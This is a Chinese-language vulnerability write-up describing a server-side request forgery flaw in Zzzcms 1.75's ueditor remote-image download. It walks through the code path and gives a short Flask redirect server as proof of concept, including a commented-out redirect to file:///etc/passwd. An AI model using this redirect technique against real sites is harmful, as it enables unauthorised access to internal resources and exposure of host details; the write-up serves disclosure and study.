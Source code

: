 Zzzcms 1.75 ssrf
================

一、漏洞简介
------------

存在这个问题的接口主要功能是远程下载保存图片，但是后缀限制死了，因此远程下载webshell的目的应该是达不到了，退而求其次也可以作为SSRF利用，比如需要获取目标主机的真实IP地址的场景下。

二、漏洞影响
------------

Zzzcms 1.75

三、复现过程
------------

### 漏洞分析

功能实现在

    plugins/ueditor/php/controller.php

![](./resource/Zzzcms1.75ssrf/media/rId25.png)

传入的post参数进入safe\_url函数进行处理，然后传入down\_url函数。这里safe\_url函数作用不大，主要是在down\_url中的逻辑。

在down\_url函数逻辑中根据url获取了保存的文件名和后缀，并且进行了文件名后缀的白名单限制和检测。

![](./resource/Zzzcms1.75ssrf/media/rId26.png)

最后通过readfile进行远程资源获取（本地也可以，支持file协议），这里通过file\_ext函数传入`http://XXXX/x.php?x.jpg`得到的文件名后缀仍然是php，对问号进行了处理，因此利用SSRF达到任意地址访问需要利用301/302跳转实现，本地搭建一个提供跳转的http服务器，然后进行访问：

    from flask import Flask,redirect,request
    app = Flask(__name__)
    @app.route('/1.txt')
    def index(page_name=''):
        #return redirect('file:///etc/passwd', code=301) #not work
        return redirect('http://www.net.cn/static/customercare/yourip.asp', code=301)
    if __name__ == '__main__':
        app.run(host='0.0.0.0', port=9000, debug=app.debug)

![](./resource/Zzzcms1.75ssrf/media/rId27.png)

![](./resource/Zzzcms1.75ssrf/media/rId28.png)

参考链接
--------

> https://xz.aliyun.com/t/7414
